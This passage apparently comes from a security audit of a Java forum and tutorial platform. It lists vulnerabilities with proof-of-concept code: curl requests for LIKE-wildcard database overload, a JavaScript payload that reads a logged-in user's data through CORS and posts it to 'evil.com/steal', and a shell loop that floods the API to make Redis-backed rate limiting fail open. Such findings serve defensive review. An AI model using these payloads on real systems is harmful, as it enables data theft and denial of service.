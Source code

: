 **Impact**: Token brute-forcing, user enumeration, authentication bypass  
**Exploitation**: Use timing differences to guess valid token patterns  

### 3. **SEARCH QUERY INJECTION** - SEVERITY: MEDIUM
**Attack Vector**: LIKE queries in search functionality vulnerable to wildcard injection  
**Location**: `ForumThreadRepository.java:findByTitleContainingOrContentContaining()`  

**Proof of Concept**:
```bash
# DoS attack via expensive LIKE queries
curl "http://localhost:8080/api/forums/search?q=%25%25%25%25%25%25%25%25%25%25"

# Information disclosure via pattern matching
curl "http://localhost:8080/api/forums/search?q=admin%25"
```

**Impact**: Database DoS, information disclosure, performance degradation  
**Exploitation**: Craft expensive LIKE patterns to overload database  

### 4. **CORS CREDENTIAL EXPOSURE** - SEVERITY: MEDIUM
**Attack Vector**: CORS allows credentials with strict origins, but subdomain attacks possible  
**Location**: `SecurityConfig.java:corsConfigurationSource()`  

**Proof of Concept**:
```html
<!-- Malicious subdomain attack -->
<script>
fetch('https://api.mdb-platform.com/api/auth/me', {
  method: 'GET',
  credentials: 'include'
}).then(r => r.json()).then(data => {
  // Steal user data
  fetch('https://evil.com/steal', {
    method: 'POST',
    body: JSON.stringify(data)
  });
});
</script>
```

**Impact**: Cross-origin credential theft, session hijacking  
**Exploitation**: Use subdomain or similar domain to bypass CORS restrictions  

### 5. **RATE LIMIT BYPASS VIA REDIS FAILURE** - SEVERITY: MEDIUM
**Attack Vector**: Rate limiting fails open for non-critical endpoints when Redis is down  
**Location**: `RateLimitConfig.java:isRequestAllowed()` - Exception handling  

**Proof of Concept**:
```bash
# 1. Overload Redis to cause failures
for i in {1..10000}; do
  curl -X POST http://localhost:8080/api/forums/threads \
    -H "Content-Type: application/json" \
    -d '{"title":"spam","content":"spam","category":"general"}' &
done

# 2. Once Redis fails, unlimited requests possible
while true; do
  curl http://localhost:8080/api/tutorials
done
```
